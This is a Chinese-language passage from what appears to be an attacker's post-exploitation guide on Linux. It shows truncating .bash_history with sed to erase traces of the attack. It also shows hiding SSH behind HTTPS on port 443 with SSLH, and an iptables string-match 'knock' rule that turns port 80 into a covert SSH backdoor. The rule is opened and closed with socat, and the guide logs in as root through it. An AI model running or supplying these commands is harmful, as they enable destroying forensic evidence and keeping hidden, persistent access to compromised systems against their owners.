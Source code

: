 ### 这种技巧是关键记录删除，或者我们可以暴力点，比如前150行是用户的正常操作记录，150以后是攻击者操作记录。我们可以只保留正常的操作，删除攻击痕迹的历史操作记录，这里，我们只保留前150行：
    sed -i '150,$d' .bash_history
# 0x04 端口复用
### 通过端口复用来达到隐藏端口的目的，在Linux下，如何实现端口复用呢？
### 第一种方式：通过SSLH在同一端口上共享SSH与HTTPS
    # 安装SSLH
    sudo apt-get install sslh
    #配置SSLH
    编辑 SSLH 配置文件：
    sudo vi /etc/default/sslh
    1、找到下列行：Run=no  将其修改为：Run=yes
    2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
    DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
### 第二种方式：利用IPTables进行端口复用
    # 端口复用链
    iptables -t nat -N LETMEIN
    # 端口复用规则
    iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
    # 开启开关
    iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
    # 关闭开关
    iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
    # let's do it
    iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
### 利用方式：
    #开启复用
    echo threathuntercoming | socat - tcp:192.168.28.128:80
    #ssh使用80端口进行登录
    ssh -p 80 root@192.168.28.128
    #关闭复用
    echo threathunterleaving | socat - tcp:192.168.28.128:80
 